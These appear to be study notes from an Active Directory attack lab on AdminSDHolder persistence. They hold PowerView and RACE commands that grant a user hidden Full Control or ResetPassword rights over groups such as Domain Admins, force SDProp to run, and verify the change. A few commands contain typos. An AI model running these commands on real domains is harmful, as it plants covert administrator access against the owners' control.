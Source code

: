 ![[Pasted image 20241127172253.png]]

- With DA privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a **backdoor/persistence** mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object.

- In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it.


Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA:

~~~
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
~~~

Using ActiveDirectory Module and RACE toolkit:

`https://github.com/samratashok/RACE`

~~~
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
~~~

Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder:

~~~
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc	al' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
~~~

~~~
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
~~~

Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory:

~~~
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
~~~

Check the Domain Admins permission - PowerView as normal user:

~~~
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"}

~~~

Using ActiveDirectory Module:

~~~
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'}
~~~
